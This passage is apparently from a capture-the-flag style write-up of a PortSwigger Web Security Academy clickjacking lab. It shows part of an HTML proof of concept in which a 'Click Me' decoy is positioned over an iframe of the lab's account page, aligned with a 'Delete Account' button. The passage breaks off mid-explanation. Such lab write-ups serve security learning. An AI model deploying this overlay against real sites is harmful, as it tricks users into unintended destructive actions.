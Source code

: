 ```html
			left:70px;
			z-index:1;
			}
	</style>
</head>
<body>
	<div id="decoy_website">
	Click Me
	</div>
	<iframe id="target_website" src="https://0a3c00b7033112208526365100e5001e.web-security-academy.net/my-account">
	</iframe>
</body>
```

For the screenshot i have changed the `z-index` of the decoy so it get's visible and as seen below, it should be placed above the button `Delete Account`:

![picture 0](/assets/images/8f99087a7da010c77057b82c2102573581df0c584087c08ba1690b4f2c01f2f1.png)  

This is the page that victim would see:
